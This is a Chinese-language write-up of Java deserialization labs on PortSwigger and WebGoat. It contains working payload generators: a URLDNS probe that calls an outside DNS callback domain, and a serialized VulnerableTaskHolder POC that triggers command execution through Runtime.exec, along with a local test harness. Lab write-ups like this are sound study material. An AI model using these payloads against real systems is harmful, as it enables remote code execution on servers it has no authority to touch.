




Java反序列化靶场
PortSwigger靶场【Exploiting Java deserialization with Apache Commons】¶
- 靶场描述

- 用官方给出的用户名密码登录后发现session变成了
 URL解码后发现是被base64编码过的数据，base64解码发现是一段序列化之后的和用户会话信息有关的数据
URL解码后发现是被base64编码过的数据，base64解码发现是一段序列化之后的和用户会话信息有关的数据 对应题目描述的会导致反序列化漏洞的数据的位置在cookie处
对应题目描述的会导致反序列化漏洞的数据的位置在cookie处 - 先用URLDNS链测试是否真的存在反序列化漏洞
- 利用ysoserial生成payload

- 将payload填入cookie中
 服务端抛出异常，该异常说明确实存在反序列化入口
服务端抛出异常，该异常说明确实存在反序列化入口 - 接下来需要找到可以利用的Gadget链
- 使用cc1链发现不存在依赖库，换用cc4链就可以完成反序列化

WebGoat¶
- 靶场描述

- 先用URLDNS测试是否真的存在反序列化漏洞
import java.io.*; import java.net.URL; import java.util.Base64; import java.util.HashMap; public class URLDNSPayload { public static void main(String[] args) throws Exception { String dnsDomain = "e80f45af10.ddns.1433.eu.org."; HashMap<URL, String> map = new HashMap<>(); URL url = new URL("http://" + dnsDomain); java.lang.reflect.Field f = java.net.URL.class.getDeclaredField("hashCode"); f.setAccessible(true); f.set(url, -1); map.put(url, "test"); ByteArrayOutputStream baos = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(baos); oos.writeObject(map); oos.close(); String base64 = Base64.getEncoder().encodeToString(baos.toByteArray()); System.out.println("=== URLDNS Payload ==="); System.out.println(base64); java.nio.file.Files.write(java.nio.file.Paths.get("urldns_payload.txt"), base64.getBytes()); } }
确实存在不过不是它期望的类，现在利用VulnerableTaskHolder类 org.dummy.insecure.framework.VulnerableTaskHolder根据提示该类存在反序列化漏洞，查看一下该类的源码寻找调用链如果VulnerableTaskHolder类的taskAction是以sleep开头且长度小于22就执行该命令if ((taskAction.startsWith("sleep") || taskAction.startsWith("ping"))&& taskAction.length() < 22) { System.out.println("about to execute: " + taskAction); try { Process p = Runtime.getRuntime().exec(taskAction); BufferedReader in = new BufferedReader( new InputStreamReader(p.getInputStream())); String line = null; while ((line = in.readLine()) != null) { System.out.println(line); } } catch (IOException e) { System.err.println("IO Exception: " + e); } }- 调用链
- POC
import java.io.*; import java.io.IOException; import java.io.ObjectOutputStream; import java.util.Base64; import java.io.Serializable; import java.time.LocalDateTime; import java.io.BufferedReader; import java.io.InputStreamReader; import java.io.ObjectInputStream; import java.io.IOException; import java.io.*; import java.io.IOException; import java.io.ObjectOutputStream; import java.util.Base64; import java.io.Serializable; import java.time.LocalDateTime; import java.io.BufferedReader; import java.io.InputStreamReader; import java.io.ObjectInputStream; import java.io.IOException; import java.io.BufferedReader; import java.nio.file.Files; import java.nio.file.Paths; import java.io.IOException; import java.io.InputStreamReader; import java.io.ObjectInputStream; import java.io.Serializable; import java.time.LocalDateTime; class VulnerableTaskHolder implements Serializable { private static final long serialVersionUID = 2; private String taskName; private String taskAction; private LocalDateTime requestedExecutionTime; public VulnerableTaskHolder(String taskName, String taskAction) { super(); this.taskName = taskName; this.taskAction = taskAction; this.requestedExecutionTime = LocalDateTime.now(); } @Override public String toString() { return "VulnerableTaskHolder [taskName=" + taskName + ", taskAction=" + taskAction + ", requestedExecutionTime=" + requestedExecutionTime + "]"; } private void readObject(ObjectInputStream stream) throws Exception { stream.defaultReadObject(); System.out.println("restoring task: " + taskName); System.out.println("restoring time: " + requestedExecutionTime); if (requestedExecutionTime != null && (requestedExecutionTime.isBefore(LocalDateTime.now().minusMinutes(10)) || requestedExecutionTime.isAfter(LocalDateTime.now()))) { System.out.println(this.toString()); throw new IllegalArgumentException("outdated"); } if ((taskAction.startsWith("sleep") || taskAction.startsWith("ping")) && taskAction.length() < 22) { System.out.println("about to execute: " + taskAction); try { Process p = Runtime.getRuntime().exec(taskAction); BufferedReader in = new BufferedReader( new InputStreamReader(p.getInputStream())); String line = null; while ((line = in.readLine()) != null) { System.out.println(line); } } catch (IOException e) { System.err.println("IO Exception: " + e); } } } } public class VulnerableTaskHolder_payload { public static void main(String[] args) throws IOException { String cmd="ping 127.0.0.1"; VulnerableTaskHolder task = new VulnerableTaskHolder("test", cmd); FileOutputStream fos = new FileOutputStream("payload.ser"); ObjectOutputStream oos = new ObjectOutputStream(fos); oos.writeObject(task); oos.flush(); oos.close(); System.out.println("Payload serialized to payload.ser"); FileInputStream fis=new FileInputStream("payload.ser"); byte[] serialized = new byte[fis.available()]; fis.read(serialized); String base64payload=Base64.getEncoder().encodeToString(serialized); System.out.println(base64payload); Files.write(Paths.get("payload.txt"), base64payload.getBytes()); } } - 先在本地写一个验证脚本模拟服务端测试一下
import java.io.*; import java.io.ObjectInputStream; import java.nio.file.Files; import java.nio.file.Paths; import java.io.BufferedReader; import java.io.IOException; import java.io.InputStreamReader; import java.io.ObjectInputStream; import java.io.Serializable; import java.time.LocalDateTime; import java.util.Base64; class VulnerableTaskHolder implements Serializable { private static final long serialVersionUID = 2; private String taskName; private String taskAction; private LocalDateTime requestedExecutionTime; public VulnerableTaskHolder(String taskName, String taskAction) { super(); this.taskName = taskName; this.taskAction = taskAction; this.requestedExecutionTime = LocalDateTime.now(); } @Override public String toString() { return "VulnerableTaskHolder [taskName=" + taskName + ", taskAction=" + taskAction + ", requestedExecutionTime=" + requestedExecutionTime + "]"; } private void readObject(ObjectInputStream stream) throws Exception { stream.defaultReadObject(); System.out.println("restoring task: " + taskName); System.out.println("restoring time: " + requestedExecutionTime); if (requestedExecutionTime != null && (requestedExecutionTime.isBefore(LocalDateTime.now().minusMinutes(10)) || requestedExecutionTime.isAfter(LocalDateTime.now()))) { System.out.println(this.toString()); throw new IllegalArgumentException("outdated"); } if ((taskAction.startsWith("sleep") || taskAction.startsWith("ping")) && taskAction.length() < 22) { System.out.println("about to execute: " + taskAction); try { Process p = Runtime.getRuntime().exec(taskAction); BufferedReader in = new BufferedReader( new InputStreamReader(p.getInputStream())); String line = null; while ((line = in.readLine()) != null) { System.out.println(line); } } catch (IOException e) { System.err.println("IO Exception: " + e); } } } } public class test { public static void main(String[] args) throws Exception { byte[] data = Files.readAllBytes(Paths.get("payload.txt")); byte[] decoded = Base64.getDecoder().decode(data); ByteArrayInputStream bais=new ByteArrayInputStream(decoded); ObjectInputStream ois=new ObjectInputStream(bais); ois.readObject(); ois.close(); bais.close(); } } 
发现可以反序列化成功并成功执行命令- 利用域名解析验证能否在目标访问利用漏洞

但是一直显示序列号不匹配，不管怎么改都不行，上网也没有找到解决方案，暂缓